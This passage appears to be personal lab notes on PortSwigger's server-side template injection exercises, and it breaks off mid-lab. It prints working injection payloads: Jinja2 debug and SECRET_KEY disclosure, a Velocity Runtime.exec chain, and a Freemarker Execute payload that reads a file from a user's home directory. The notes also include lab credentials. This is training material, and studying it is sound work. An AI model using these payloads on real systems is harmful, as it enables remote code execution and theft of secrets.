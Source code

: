 find jinja2 exploits:

*(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file*

>If the Debug Extension is enabled, a {% debug %} tag will be available to dump the current context as well as the available filters and tests. This is useful to see what’s available to use in the template without setting up a debugger.
*Source: https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement*

try: 
    <pre>{% debug %}</pre>

observe we get a list of available python commands. look for interesting functions: 
 'settings':

**payload**:
{{settings.SECRET_KEY}}

observe secret-key in response: *w2lvhizvv21792mim7ewptxez8rvdyrs* - copy and paste as solution

# Lab Solved



material:

 For example, in the Java-based template engine Velocity, you have access to a ClassTool object called $class. Studying the documentation reveals that you can chain the $class.inspect() method and $class.type property to obtain references to arbitrary objects. In the past, this has been exploited to execute shell commands on the target system as follows:
    $class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")


# [6. ***Lab: Server-side template injection in a sandboxed environment***](https://portswigger.net/web-security/server-side-template-injection/eploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

1. try using **Execute** to invoke action:
try:
<#assign ex = "freemarker.template.utility.Execute"?new()>${ex('cat /home/carlos/morale.txt')}
get:
FreeMarker template error: Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons. 

**Execute** is fobidden

2. find alternative way to execute (*from portswiggers solution:)
try:
```
${object.getClass()}
```
get:
```
FreeMarker template error (..): The following has evaluated to null or missing: ==> object 
```
ther is access to 

